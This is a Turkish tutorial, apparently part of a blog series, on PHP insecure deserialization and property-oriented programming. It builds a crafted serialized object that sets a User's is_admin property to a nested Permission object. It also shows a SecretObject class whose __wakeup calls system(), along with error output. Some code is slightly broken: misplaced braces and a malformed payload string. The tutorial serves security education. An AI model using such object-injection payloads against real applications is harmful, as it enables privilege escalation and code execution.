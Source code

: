 # **Deserialization Zafiyeti Part 2 | 0x0C**

Part 1'in devamıdır.

# **Property Oriented Programing (POP)**

Permission isminde bir class ekleyelim.

```
<?php

class Permission{
    var $permissionarr = array();
}

class User{
    var $firstname;
    var $lastname;
    var $is_admin = 0;
    function __construct($firstname="",$lastname="")
    {
        $this->firstname = $firstname;
        $this->lastname = $lastname;
    }
    function __toString(){
        return $this->firstname." ".$this->lastname."\n";
    }
    function __destruct(){
       //echo "Object destruction: ".$this->firstname." ".$this->lastname;
    }
    function __wakeup(){
        //echo "SINIF UYANDIRILDI! ";
    }
    public function is_Admin(){
        if ($this->is_admin){
            return True;
        return False;
    }
}

}

$user = new User("Mehmet","Ince");

$store_somewhere = serialize($user);
```

Payload'ın önceki halinde User sınıfına ait bir is_admin property'si vardı. Bir sınıfın property'si başka bir sınıfın property'si olabileceği için biz bu kısımda 
başka bir sınıf oluşturtacağız. Aşağıdaki kod da buna örnek verilebilir. 

```
$this -> is_admin = new Permissions();
```

Deserialize.php kodundaki payload'ı güncelliyoruz. Artık "Permissions" isimli property'i de payload'a eklemiş olduk.

```
<?php

require_once("user_class.php");

class SecretObject{

    var $filename;
    function __wakeup(){
        system("");
    }
}

$payload = "";

$payload = 'O:4:"User":3:{s:9:"firstname";s:0:"";s:0:"";s:0:"";s:8:"is_admin";O:11;"Permissions"}';

$user = unserialize( $payload);

echo $user->is_Admin();
```

Yeni halinin çıktısı.

```
PS C:\Users\Samed\php_proje\php_kodları> php deserialize.php

Deprecated: Creation of dynamic property User::$ is deprecated in C:\Users\Samed\php_proje\php_kodları\deserialize.php on line 17 

Warning: unserialize(): Error at offset 66 of 85 bytes in C:\Users\Samed\php_proje\php_kodları\deserialize.php on line 17

Fatal error: Uncaught Error: Call to a member function is_Admin() on false in C:\Users\Samed\php_proje\php_kodları\deserialize.php:19
Stack trace:
#0 {main}
  thrown in C:\Users\Samed\php_proje\php_kodları\deserialize.php on line 19
```

Bu hatayı gidermek için manuel olarak serialize işlemini yapmalıyız. Fakat öncesinde user_class.php dosyasında bazı değişiklikler yapmalıyız. 

```
<?php

class Permission{
    var $permissionarr = array();
}

class User{
    var $firstname;
    var $lastname;
    var $is_admin = 0;

    function __construct($firstname="",$lastname="")
    {
        $this->firstname = $firstname;
        $this->lastname = $lastname;
        $this->is_admin = new Permission(); // değişikliğin yapıldığı kod parçası.
    }
    function __toString(){
        return $this->firstname." ".$this->lastname."\n";
    }
    function __destruct(){
       //echo "Object destruction: ".$this->firstname." ".$this->lastname;
    }
    function __wakeup(){
        //echo "SINIF UYANDIRILDI! ";
    }
    public function is_Admin(){
        if ($this->is_admin){
            return True;
        return False;
    }
}

}

$user = new User("Mehmet","Ince");

$store_somewhere = serialize($user);
```

Serialize işlemini gerçekleştirdiğimizde aşağıdaki çıktıyı alıyoruz. Permission sınıfı için permissionarr isminde bir property bulunmakta ve bizim hata alma sebebimiz de bu property'e payload'da yer vermememizden.

```
//serialize.php
O:4:"User":3:{s:9:"firstname";s:6:"Mehmet";s:8:"lastname";s:5:"İnce";s:8:"is_admin";O:10:"Permission":1:{s:13:"permissionarr";a:0:{}}}
```

Permission sınıfımıza yeni bir magic metot ekliyoruz.

```
function __wakeup()
    {
        echo "ben uyandım mdi";
    }
```
